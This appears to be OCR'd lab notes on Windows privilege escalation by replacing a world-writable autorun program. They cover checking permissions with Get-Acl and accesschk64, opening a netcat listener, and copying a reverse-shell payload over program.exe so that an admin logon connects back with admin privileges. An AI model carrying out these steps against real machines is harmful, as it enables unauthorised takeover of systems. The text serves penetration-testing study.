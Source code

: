 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
C:\Users\user\Desktop\Tools
 -Select the “Logon”tab and notice that the Image Path of “My Program” is pointing to “C:\Program Files\Autorun Program\program.exe"

Check the permissions of program.exe using PowerShell:
 - Get-ChildItem "C:\Program Files\Autorun Program\" -Recurse | Get-Acl | select Path,Owner,AccessToString,Group | Format-List
   - AccessToString : Everyone Allow  FullControl

Verify permission:
C:\Users\user\Desktop\Tools\accesschk64.exe -wvu "C:\Program Files\Autorun Program\program.exe"
 - RW Everyone | FILE_ALL_ACCESS

nc -nlvp 4443

Copy the payload to "C:\Program Files\Autorun Program\program.exe"
 - copy usp_payload.exe "C:\Program Files\Autorun Program\program.exe"

Log off as a “user”account and log back inas “admin”account to simulate an admin accessing his account and wait for a connection with admin privilegein our listener.

In adminaccount, you will be prompted with a security warning, select “Run”.

go back to listening terminal